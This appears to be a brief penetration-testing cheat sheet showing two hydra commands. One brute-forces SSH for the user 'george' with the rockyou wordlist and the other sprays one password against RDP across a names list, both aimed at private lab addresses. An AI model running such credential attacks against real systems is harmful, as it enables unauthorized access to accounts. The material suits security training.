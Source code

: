 SSH

sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

password spraying 

```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
